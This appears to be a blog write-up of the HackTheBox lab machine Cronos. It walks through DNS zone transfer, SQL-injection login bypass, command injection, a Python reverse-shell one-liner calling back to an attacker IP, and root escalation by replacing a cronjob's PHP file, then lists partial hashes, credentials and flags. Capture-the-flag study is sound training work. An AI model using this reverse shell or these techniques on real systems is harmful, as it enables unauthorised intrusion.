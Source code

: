 [HackTheBox] CronOS
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_cronos/infocard.png.webp)

This is a writeup for HTB VM [Cronos](https://www.hackthebox.eu/home/machines/profile/11). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_cronos/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 14:08:01 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/xml/_quick_tcp_nmap.xml 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up, received user-set (0.084s latency).
Scanned at 2019-11-13 14:08:02 PST for 23s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 14:08:25 2019 -- 1 IP address (1 host up) scanned in 24.49 seconds
```

2\. We start with DNS enumeration and with a reverse lookup and find that the subdomain `ns1.cronos.htb` is associated with the target IP. Since DNS is responding on TCP, we also perform a DNS zone transfer and find additional subdomains associated with the target IP:  
```
dig +noall +answer -x 10.10.10.13 @10.10.10.13
host -t axfr cronos.htb 10.10.10.13
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_cronos/screenshot01.png.webp)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_cronos/screenshot02.png.webp)  

3\. Upon visiting the `admin.cronos.htb` subdomain, we are presented with a login page, that is vulnerable to SQL injection:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_cronos/screenshot03.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh     |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp  |  domain  |  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  |  http    |  Apache httpd 2.4.18 ((Ubuntu))
```

## Phase #2: Exploitation
1\. We use SQLi to successfully bypass login and are presented with a page that allows running the `ping` and `traceroute` commands. The input field on this page is vulnerable to a command injection:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_cronos/screenshot04.png.webp)  

2\. We use this to execute a Python reverse shell and get interactive access on the target system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_cronos/screenshot05.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_cronos/screenshot06.png.webp)  

3\. We obtain the first flag since the file is readable by current user `www-data`:  

![writeup.exploitation.steps.3.1](/static/files/posts_htb_cronos/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@cronos> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos>  
www-data@cronos> uname
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos>  
www-data@cronos> ifconfig
ens160  Link encap:Ethernet  HWaddr 00:50:56:b9:26:e7
        inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
        inet6 addr: dead:beef::250:56ff:feb9:26e7/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:26e7/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:1008552 errors:0 dropped:0 overruns:0 frame:0
        TX packets:687541 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000
        RX bytes:157239763 (157.2 MB)  TX bytes:224790718 (224.7 MB)
www-data@cronos>  
www-data@cronos> users
root
noulis
```

## Phase #3: Privilege Escalation
1\. While enumerating, we find hardcoded MySQL credentials for user `admin` within the `/var/www/admin/config.php` file. We use these credentials to connect to MySQL service and obtain password hash for user `admin`. We were unable to crack this hash:  

![writeup.privesc.steps.1.1](/static/files/posts_htb_cronos/screenshot08.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_cronos/screenshot09.png.webp)  

2\. Upon further enumeration, we find that there's a cronjob that run a PHP file every minute with `root` privileges. Luckily for us, the PHP file it runs is owned by current user `www-data`:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_cronos/screenshot10.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_cronos/screenshot11.png.webp)  

3\. We can replace this file with a PHP reverse shell and catch the incoming shell to obtain elevated privileges:  

![writeup.privesc.steps.3.1](/static/files/posts_htb_cronos/screenshot12.png.webp)  

![writeup.privesc.steps.3.2](/static/files/posts_htb_cronos/screenshot13.png.webp)  

4\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.4.1](/static/files/posts_htb_cronos/screenshot14.png.webp)  

## Loot
### Hashes
```
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5........................
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVU........................
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHS........................
```
### Credentials
```
mysql: admin/kEjdbRigfBHURE.....
```
### Flags
```
/home/noulis/user.txt: 51d236438b333970dbba7...........
/root/root.txt: 1703b8a3c9a8dde879942c..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/11>  
* <https://www.youtube.com/watch?v=CYeVUmOar3I>  
* <https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726>  
